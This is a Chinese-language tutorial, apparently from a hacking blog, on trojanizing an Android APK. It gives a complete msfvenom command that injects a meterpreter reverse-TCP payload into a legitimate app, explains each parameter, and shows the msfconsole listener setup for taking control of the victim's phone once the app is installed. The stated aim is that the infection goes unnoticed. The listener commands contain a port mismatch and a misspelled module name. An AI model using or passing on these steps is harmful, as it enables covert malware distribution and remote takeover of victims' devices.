




##安装包注入病毒

这一章节介绍的是在安装包中注入病毒，当该软件被安装并启动时，也同时启动了病毒程序，这个过程是不被察觉的
##测试环境
攻击者：Kali                                 **IP地址:192.168.43.126**

victim：android                            **IP地址:192.168.43.188**
##使用msfvenom生成Payload并向安装包注入病毒

```
msfvenom --platform android -k -p android/meterpreter/reverse_tcp -x ***.apk LHOST=192.168.43.126 LPORT=4444 -o > ***.apk
```
** 注意：代码中的星号是APK安装包的位置，前一个代表源APK文件名，后一个代表生成的APK文件名 **

####参数讲解
**--platform** *参数指的是平台*

**-x** *参数指的是源安装包的位置*

**-p** *参数指的是Payload的类型*

**-LHOST** *参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给哪台主机*

**-LPORT** *参数指定的是返回TCP会话使用的本地端口*

**-f** *参数指定的是生成的文件类型*

更详细的解释欢迎阅读其他[章节](https://hxtop1.tk/ch2_11.html "meterpreter")


##设置监听器

我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
```
use exploit/multi/handle
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 443
```

等待用户安装并启动软件



我们现在已经可以看到收到了一个会话信息




现在就进入了Victim的手机，我们可以怎么控制手机呢？可以点击[链接](https://hxtop1.tk/ch2_123.html "meterpreter")查看，或者查看前几章节的内容

如果帮助到你了，希望可以得到你的打赏，谢谢[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")